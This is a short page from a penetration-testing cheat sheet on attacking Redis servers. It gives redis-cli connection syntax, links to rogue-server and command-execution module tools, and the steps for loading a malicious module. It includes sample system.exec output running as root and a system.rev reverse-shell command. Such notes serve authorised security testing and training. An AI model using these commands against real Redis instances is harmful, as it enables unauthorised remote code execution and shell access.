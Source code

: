 ```yaml
---
layout: default
title: REDIS Pentesting
nav_order: 2
has_children: false
parent: Services Pentesting
grand_parent: Pentesting
---
```


## REDIS Pentesting (6379) :

### Interract :
```bash
redis-cli -h $IP
```

### RCE :

#### Interractive Shell 
The following tool might help to get an access to the instance :  [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)


#### Load Redis Module

The following link provide information regarding the redis module loading : [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

**Load the module** has to be loaded so a write folder is needed. 

**Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`

**List loaded modules** to check it was correctly loaded: `MODULE LIST`

**Execute** **commands**:

```bash
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

**Unload the module** whenever you want: `MODULE UNLOAD mymodule`